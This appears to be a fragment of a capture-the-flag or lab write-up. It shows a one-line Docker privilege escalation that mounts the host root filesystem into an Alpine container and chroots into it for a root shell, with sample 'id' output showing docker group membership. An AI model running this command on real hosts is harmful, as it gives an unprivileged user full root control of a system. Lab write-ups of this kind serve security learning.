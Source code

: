 ```
anurodh@ubuntu:/home/apaar$ docker run -v /:/mnt --rm -it alpine chroot /mnt sh

```


simple priv esc to root


if docker is reflected in `id`

```
uid=1002(anurodh) gid=1002(anurodh) groups=1002(anurodh),999(docker)
```